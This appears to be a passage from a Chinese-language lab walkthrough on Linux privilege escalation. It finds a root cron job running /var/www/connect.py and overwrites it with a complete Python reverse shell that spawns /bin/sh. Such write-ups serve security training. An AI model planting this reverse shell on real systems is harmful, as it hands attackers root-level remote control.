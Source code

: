 ### 方法2

检查Linux计划任务`ls -alhR /etc/cron*`

![image-20240609024917839](./assets/image-20240609024917839.png)

![image-20240609025559830](./assets/image-20240609025559830.png)

意识到可以通过connect.py达到权限提升的目的。

#### 反弹root权限shell

使用`cat >> /var/www/connect.py << EOF`可以向connect.py写入复杂文件

##### 自己写python反向shell

```python
#!/usr/bin/python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1", 5050))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```

